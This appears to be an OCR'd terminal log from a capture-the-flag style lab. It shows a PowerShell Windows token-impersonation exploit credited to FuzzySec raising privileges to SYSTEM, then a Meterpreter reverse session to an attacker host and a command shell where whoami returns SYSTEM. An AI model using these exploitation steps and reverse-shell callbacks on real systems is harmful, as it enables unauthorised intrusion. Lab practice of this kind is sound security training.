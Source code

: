 ```bash
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2532

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[ref] cannot be applied to a variable that does not exist.
At line:200 char:3
+         $qNG = [Ntdll]::NtImpersonateThread($w__, $w__, [ref]$sxPdh)
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (sxPdh:VariablePath) [], Runti 
   meException
    + FullyQualifiedErrorId : NonExistingVariableReference
 
[!] NtImpersonateThread failed, exiting..
[+] Thread resumed!

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
Cannot convert argument "ExistingTokenHandle", with value: "", for "DuplicateTo
ken" to type "System.IntPtr": "Cannot convert null to type "System.IntPtr"."
At line:259 char:2
+     $qNG = [Advapi32]::DuplicateToken($cNw, 2, [ref]$cOUB)
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodException
    + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

Nx6g9kNmqrw3OrZpBjXQALgf6moIhWKp
[+] Executed on target machine.
[*] Sending stage (175686 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.16.5:4444 -> 10.10.10.8:49164) at 2023-04-11 13:33:16 +1000
[+] Deleted C:\Users\kostas\AppData\Local\Temp\oyEvwV.ps1

(Meterpreter 2)(C:\Users\kostas\Documents) > shell
Process 504 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Documents>whoami
whoami
nt authority\system
```
